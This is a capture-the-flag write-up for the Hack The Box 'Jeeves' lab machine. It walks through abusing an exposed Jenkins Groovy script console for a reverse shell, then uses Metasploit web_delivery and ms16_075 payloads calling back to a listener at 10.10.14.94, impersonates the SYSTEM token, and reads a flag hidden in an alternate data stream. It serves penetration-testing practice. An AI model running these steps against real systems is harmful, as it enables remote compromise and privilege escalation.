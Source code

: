 ```yaml
---
description: https://app.hackthebox.com/machines/114
---
```


# 🪄 Jeeves

<figure><img src="../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

Staring with the nmap we see a web server on port 80 and 50000,&#x20;

**port 80:**

<figure><img src="../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

just a webpage like this, the links do not go anywhere and if we search anything:

<figure><img src="../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

we get an error page, with SQL server written on it so maybe we got a SQLi somewhere

but we quickly see the error page is a fake one, it's an image:

<figure><img src="../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

So let's go on **port 50000**

open up the graphical interface and fire up the manual exploitation like this:

```
dirbuster&
```

<figure><img src="../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

after waiting for a bit we find a subdomain that redirects to a dashboard ->

<figure><img src="../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

jeeves is well known to be unsecure and to have a script code section

<figure><img src="../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

We instantly see that the script console uses groovy:

<figure><img src="../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

now we go and fetch our payload of choice:

Groovy Reverse Shell - [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

<figure><img src="../../.gitbook/assets/image (585).png" alt=""><figcaption><p>copy this payload</p></figcaption></figure>

Set up a listener, modify the payload:

<figure><img src="../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

then, fire up the payload and get your shell:

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

Now is the perfect moment to look at our previous documentation:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../still-sorting-out/documentation/cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

```
whoami /priv
```

we instantly see our go to path:

<figure><img src="../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

another way of enumerating is ->

```
systeminfo
```

<figure><img src="../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

copy and paste the whole outpu in a txt file, then

<figure><img src="../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

```
./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo systeminfo.txt
```

[**`https://github.com/AonCyberLabs/Windows-Exploit-Suggester`**](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1. **`./v.py`**: This is the command to execute the Python script `windows-exploit-suggester.py`. The `./` prefix specifies the current directory where the script is located.
2. **`--database 2020-04-17-mssb.xls`**: This option specifies the database file to be used by the script. The database file, named `2020-04-17-mssb.xls`, likely contains information about known Microsoft security bulletins and associated vulnerabilities.
3. **`--systeminfo systeminfo.txt`**: This option specifies the system information file to be used by the script. The file named `systeminfo.txt` likely contains detailed information about the target Windows system, such as operating system version, installed patches, and installed software.

If ran correctly, we'll get hot potato attacks, juicy potato etc

We could also use metasploit:&#x20;

```
use exploit/multi/script/web_delivery
options
show targets
```

<figure><img src="../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

```
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.94
set srvhost 10.10.14.94
run
```

<figure><img src="../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

then paste this payload in your already existing session:

<figure><img src="../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

and back on your msfconsole you just have to type in the command:

```
sessions 1
```

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

then to continue, you could enumerate:

```
 run post/multi/recon/local_exploit_suggester 
```

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

put that aside with the background command and put this payload:

```
background
use exploit/windows/local/ms16_075_reflection
set lhost 10.10.14.94
set lport 5555 
#because session1 runs on 4444
set payload windows/x64/meterpreter/reverse_tcp
```

and if you did everything correctly and you run the payload, you'll get a shell, now

now let's follow in cmd:

```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

```
shell
```

And when  we go on administrator desktop we find no root flag?

Alternate Data Streams - [https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

what we learn in this article is that there are primary data streams and alternate&#x20;

1. **Primary Data Streams**:
   * Primary data streams are the main data associated with a file. When you create or modify a file in Windows, you're working with its primary data stream.
   * Every file in NTFS has at least one primary data stream, which contains the file's main content.
   * Primary data streams are typically what you interact with when you open, read, write, or execute a file. They contain the file's actual data, such as text, executable code, images, etc.
   * Files with only primary data streams are considered "regular" files in Windows.
2. **Alternate Data Streams (ADS)**:
   * Alternate data streams are additional streams of data that can be associated with a file. They are not typically visible through regular file system navigation tools like File Explorer.
   * An alternate data stream is a named stream of data that is attached to a file's primary data stream. Each alternate data stream is associated with a specific name, allowing multiple streams to exist within a single file.
   * Alternate data streams can be used for various purposes, such as storing metadata, file attributes, or additional content related to the main file.
   * While alternate data streams are not commonly used in everyday file operations, they can be leveraged by attackers for hiding malicious content or data within seemingly innocent files.

So on the Desktop we see a hm.txt file

```
dir /R
```

<figure><img src="https://thecyberjedi.com/wp-content/uploads/2020/01/image-103.png" alt=""><figcaption></figcaption></figure>

to view the contents of the file we can type **more < hm.txt:root.txt**

**Very  good writeup:** [**https://thecyberjedi.com/jeeves/**](https://thecyberjedi.com/jeeves/)
